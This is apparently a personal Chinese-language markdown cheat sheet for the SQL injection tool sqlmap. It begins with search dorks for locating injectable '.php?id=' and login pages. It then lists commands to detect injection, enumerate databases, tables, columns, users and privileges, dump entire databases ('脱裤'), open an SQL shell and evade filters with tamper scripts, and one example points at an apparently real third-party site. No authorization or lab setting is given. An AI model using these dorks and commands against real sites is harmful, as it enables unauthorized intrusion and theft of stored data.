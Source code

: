 # sqlmap笔记

<!-- TOC -->

- [sqlmap笔记](#sqlmap笔记)
    - [查找网站](#查找网站)
    - [sqlmap官网](#sqlmap官网)
    - [sqlmap简介：](#sqlmap简介)
    - [sqlmap支持五种不同的注入模式：](#sqlmap支持五种不同的注入模式)
    - [sqlmap支持的数据库有:](#sqlmap支持的数据库有)
    - [三种请求类型的注入测试](#三种请求类型的注入测试)
    - [MYSQL注入步骤：](#mysql注入步骤)
    - [补充：：](#补充)
    - [连接数据库：要先安装 PyMySQL/PyMySQL 不过我没成功](#连接数据库要先安装-pymysqlpymysql-不过我没成功)
    - [延时注入：](#延时注入)
    - [Tamper脚本注入：](#tamper脚本注入)
    - [默认使用level1检测全部数据库类型](#默认使用level1检测全部数据库类型)

<!-- /TOC -->

## 查找网站
>inurl：.php?id=
intitle: 登录
## sqlmap官网
>[sqlmap官网](http://sqlmap.org/)
## sqlmap简介：

>还有nosqlmap用nosql用的

## sqlmap支持五种不同的注入模式：
```
    1、基于布尔的盲注，即可以根据返回页面判断条件真假的注入。
    2、基于时间的盲注，即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断。
    3、基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中。
    4、联合查询注入，可以使用union的情况下的注入。
    5、堆查询注入，可以同时执行多条语句的执行时的注入。
```
##     sqlmap支持的数据库有:
  >MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird, Sybase和SAP MaxDB

## 三种请求类型的注入测试
```    
    GET方式：      sqlmap -u "http://www.xxx.cn/post.php?id=1"
    POST方式：     sqlmap -u "URL:" --data "POST数据"
    Cookie方式：   sqlmap -u "URL:" --cookie "Cookie数据"
```
## MYSQL注入步骤：
```
    1、查看是否有注入点： sqlmap -u "http://xxx.xxx?type=11"
    2、获取库：          sqlmap -u "http://xxx.xxx?type=11" --current-db
    3、获取表：          sqlmap -u "http://xxx.xxx?type=11" --tables -D "库名"
    4、获取字段：        sqlmap -u "http://xxx.xxx?type=11" --columns -T "表名"  -D "库名"
    5、获取字段内容：    sqlmap -u "http://xxx.xxx?type=11" --dump -C "字段" -T "表名"  -D "库名"
```    
##     补充：：
```
    还有获取用户名：    sqlmap -u "http://xxx.xxx?type=11" --current-user
    还有获取所有用户名：    sqlmap -u "http://xxx.xxx?type=11" --users
    获取数据库数量：    sqlmap -u "http://xxx.xxx?type=11" --count -D "库名"
    判断用户权限：      sqlmap -u "http://xxx.xxx?type=11" --privileges
脱裤：          sqlmap -u "http://xxx.xxx?type=11"  --dump-all -D '库名'
```


## 连接数据库：要先安装 PyMySQL/PyMySQL 不过我没成功
>sqlmap -d "mysql://用户:密码@ip地址:3306/数据库" --sql-shell

## 延时注入：
1、自己写延时多长时间：sqlmap -u "http://xxx.xxx?type=11" --delay 10 
2、sqlmap -u "http://www.spwsbjgs.com/product.php?tid=87" -safe-freq 

## Tamper脚本注入：
sqlmap -u "URL" --tamper="脚本名"

## 默认使用level1检测全部数据库类型
sqlmap -u "http://www.vuln.cn/post.php?id=1"  --dbms mysql --level 3
指定数据库类型为mysql，级别为3（共5级，级别越高，检测越全面）

配合使用：--batch --tamper

指定数据库类型：  --dbms
MySQL
Oracle
PostgreSQL
Microsoft SQL Server


指定注入类型参数：--technique   这个参数可以指定sqlmap使用的探测技术，默认情况下会测试所有的方式。
支持的探测方式如下：
B: Boolean-based blind SQL injection（布尔型注入）
E: Error-based SQL injection（报错型注入）
U: UNION query SQL injection（可联合查询注入）
S: Stacked queries SQL injection（可多语句查询注入）
T: Time-based blind SQL injection（基于时间延迟注入）


指定操作系统:  --os
Linux
Windows
